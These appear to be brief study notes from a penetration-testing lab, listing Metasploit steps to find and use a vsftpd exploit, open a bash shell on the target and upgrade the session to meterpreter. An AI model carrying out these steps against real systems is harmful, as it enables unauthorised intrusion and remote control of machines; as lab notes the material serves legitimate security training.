 - msfconsole
- workspace
- nmap test
- search db -> search type:exploit name:vsftpd
- use exploit
- /bin/bash -i (to open command shell)

we can upgrade from shell to meterpter 
- CTRL+Z (background the session)
- use shell_to_meterpreter module
- set lhost eth1
- set session 1 (depends which one is ur session)
- run
- session 2 (we change to meterpreter )